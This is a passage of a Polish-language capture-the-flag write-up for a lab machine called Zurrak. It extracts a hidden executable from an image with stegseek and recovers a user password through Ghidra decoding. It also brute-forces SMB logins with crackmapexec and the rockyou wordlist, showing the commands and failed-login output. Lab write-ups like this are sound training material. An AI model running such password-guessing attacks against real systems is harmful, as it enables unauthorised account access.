 ```bash
stegseek zurrakhearts.jpg 
```
```bash
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""0.0 MB)           

[i] Original filename: "asli.exe".
[i] Extracting to "zurrakhearts.jpg.out".
```
Tylko w **zurrakhearts.jpg** coś było ciekawego, okazał się nim plik o nazwie **asli.exe**. Uruchamiająć go pod **Windowsem** mamy komunikat:
{: .text-justify}
```powershell
PS C:\temp\zurrak> .\asli.exe
classified
```
Jednak to nie jest to, czego szukaliśmy.
{: .text-justify}
# 05. hasło do loginu asli
## 05a. szukanie w pliku asli.exe
Po diseambleacji asli.exe w [Ghidrze](https://ghidra-sre.org/) możemy zauważyć.
{: .text-justify}
![12](/assets/images/hacking/2023/04/12.png)
{: .text-justify}
Rozkodowując uzyskujemy **ilovecats**.
{: .text-justify}
```bash
printf '%b%b%b%b%b%b%b%b' "\x69\x6c\x6f\x76\x65\x63\x61\x74\x73\n"
ilovecats
```
## 05b. Łamanie hasła metodą bruteforce
Wcześniejszy sposób na znalezienie hasła był dla spostrzegawczych. Można ten sam wynik osiągnąć metodą siłową. Do tego użyłem programu **Crackmapexec**. Niestety inne narzędzia tego typu tj: **Hydra**, **Medusa**, **Ncrack** wyrzucały błędy przy skanowaniu, albo nie wiedziałem, czy program dobrze działa, czy się nie zawiesił. Na szczęście **Crackmapexec** był ok.
{: .text-justify}
```bash
crackmapexec smb 172.16.1.170 -u asli -p /usr/share/wordlists/rockyou.txt
```
```bash
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:smokie STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:notebook STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:louis STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:lamborghini STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:ibrahim STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:dixie1 STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:coyote STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:class08 STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:Liverpool STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:terminator STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:sparks STATUS_LOGON_FAILURE 
```